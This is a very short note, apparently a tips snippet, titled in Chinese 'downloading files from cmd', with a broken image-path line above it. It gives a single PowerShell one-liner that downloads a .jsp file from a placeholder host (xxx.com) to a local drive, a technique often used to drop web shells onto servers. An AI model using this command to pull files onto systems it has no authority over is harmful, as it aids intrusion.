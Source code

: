 # cmd下载文件

```text
powershell (new-object System.Net.WebClient).DownloadFile('https://xxx.com/a.jsp','D:\a.jsp')
```

